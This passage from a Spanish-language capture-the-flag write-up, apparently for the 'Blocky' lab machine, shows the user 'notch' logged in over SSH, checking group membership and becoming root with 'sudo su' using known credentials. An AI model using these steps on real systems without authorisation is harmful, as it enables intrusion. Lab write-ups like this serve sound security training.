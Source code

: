 Para este caso, utilizaremos el acceso obtenido por ssh y ya dentro de la máquina como el usuario **notch** podemos visualizar la flag (user.txt). Ahora debemos encontrar una forma de escalar privilegios.

```bash
notch@Blocky:~$ id
uid=1000(notch) gid=1000(notch) groups=1000(notch),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
notch@Blocky:~$
```

Nos encontramos en el grupo **sudo** y además contamos con las credenciales del usuario **notch**; por lo tanto ya podemos convertirnos en **root**:

```bash
notch@Blocky:~$ sudo su
[sudo] password for notch: 
root@Blocky:/home/notch# whoami
root
root@Blocky:/home/notch#
```

Ya somos el usuario **root** y podemos visualizar la flag (root.txt).
